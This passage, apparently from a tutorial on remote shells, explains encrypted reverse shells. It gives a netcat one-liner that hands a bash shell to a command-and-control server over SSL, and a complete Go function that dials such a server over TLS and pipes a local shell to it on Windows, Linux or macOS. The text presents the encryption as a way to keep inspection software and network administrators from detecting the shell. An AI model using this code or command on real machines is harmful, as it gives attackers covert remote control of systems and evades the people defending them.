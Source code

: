 ```Go
 }

 // send remote shell output into channel (return does not work with goroutines)
 ch <- buf

}
```

## Encrypted Shells

Reverse shells fix many of the issues of bind shells but they still send all their traffic in clear text and with no authentication which makes the whole process vulnerable. Package inspection software, network administrator and malicious actors could still detect and exploit/fix our remote shell.
The solution is to use TLS to encrypt and authenticate the connection between the host and the CC server. This can be done with both bind and reverse shells by adding the `--ssl` option eg. `nc -v [CC IP] [port number] -e /bin/bash --ssl`
The following implementation is an extension of the previously shown reverse shell implementation and uses the same func tion to handle connections on the side of the CC server.

Host:

```Go
func encryptedReverseShellHost(connstr string) {

 // Establish connection
 conf := &tls.Config{}
 conn, err := tls.Dial("tcp", connstr, conf)
 if err != nil {
  log.Println("An error occurred while connecting to CC server:", err)
  os.Exit(1)
 } else {
  log.Println("Successfully connected to CC server")
 }

 // make sure connection is closed when process finishes
 defer conn.Close()

 // start local shell
 os := runtime.GOOS
 shell := exec.Command("/bin/bash")
 switch os {
 case "windows":
  shell = exec.Command("powershell.exe")
 case "linux":
  shell = exec.Command("/bin/bash")
 case "darwin":
  shell = exec.Command("/bin/zsh")
 }

 // connect shell to server
 shell.Stdin = conn
 shell.Stdout = conn
 shell.Stderr = conn
 shell.Run()
}
```
